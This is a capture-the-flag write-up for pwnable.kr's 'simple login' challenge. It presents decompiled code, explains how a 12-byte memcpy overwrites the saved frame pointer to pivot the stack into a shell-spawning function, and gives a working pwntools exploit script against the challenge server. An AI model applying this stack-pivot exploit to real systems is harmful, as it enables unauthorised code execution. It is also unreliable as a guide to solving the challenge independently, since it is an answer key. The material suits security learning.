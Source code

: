 # simple login

## Description

simple login - 50 pt

> Can you get authentication from this server? <br><br>
> Download : http://pwnable.kr/bin/login <br><br>
> Running at : nc pwnable.kr 9003


## Solution

### Understanding the binary

As stated in the description, we are given a binary file. Let's start by checking what kind of file it is:

```bash
$ file login
login: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

Nothing special here, it's a 32-bit ELF executable. Here is the decompilation provided by IDA:

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-3Ch]
  int v5; // [esp+18h] [ebp-28h] BYREF
  _BYTE v6[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int v7; // [esp+3Ch] [ebp-4h]

  memset(v6, 0, sizeof(v6));
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ", v4);
  _isoc99_scanf("%30s", v6);
  memset(&input, 0, 12);
  v5 = 0;
  v7 = Base64Decode(v6, &v5);
  if ( v7 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v5, v7);
    if ( auth(v7) == 1 )
      correct();
  }
  return 0;
}
```

**auth:**
```c
BOOL __cdecl auth(int a1)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  const char *v3; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  v3 = (const char *)calc_md5(v2, 12);
  printf("hash : %s\n", v3);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", v3) == 0;
}
```

**correct:**
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

So, the program reads 30 bytes from the user, decodes them from base64, and initializes `input` to 0. Then, if the length of the decoded string is less or equal to 12 bytes, it copies it to `input` and calls the `auth` function. 

The `auth` function copies `input` to a local variable, and then calls the `calc_md5` function on it. It then compares the result to the string `f87cd601aa7fedca99018a8be88eda34`. If the comparison is successful, it calls the `correct` function.

The `correct` function checks if `input` (or being more precise, it's first four bytes) is equal to `-559038737`. If it is, it prints the flag and calls `system("/bin/sh")`.

### Exploit

Note that when `input` is copied a local variable using `memcpy`, the program copies 12 bytes into a 4 byte long variable. Debugging with gdb, it appears that the local variable is 8 bytes above the pushed ebp on the stack - which means that it'll overwritten with the last 4 bytes of `input`.

You surely ask "Okay, how does modifying the saved ebp help us?". Well, consider if the saved ebp points somewhere where the address of  `correct` is saved. When the program will return to main, and the `leave` instruction will be executed, then esp will too point to the address of `correct`. Thus, when the `ret` instruction will be executed, the program will jump to the `correct` function. 

It's important to note that after moving ebp to esp, `leave` also pops the saved ebp from the stack - causing esp to be incremented by 4, and so we technically need to make rbp point to the 4 bytes behind the address of `correct`.

We can achieve this by making `input` look like this:

```
| 0xdeadbeef | address of correct | ptr to last cell minus 4 |
                    ^                         |
                    |_________________________|
```

### Exploit code

```python
from pwn import *

'''
0x0804925f: correct
0x0811eb44: 5th byte of input
'''
payload = p32(0xdeadbeef) + p32(0x0804925f) + p32(0x0811eb44 - 4) 

conn = remote('pwnable.kr', 9003)
conn.sendline(base64.b64encode(payload)) # don't forget to encode the payload!
conn.interactive()
```

```
control EBP, control ESP, control EIP, control the world~
```

Wise words, indeed.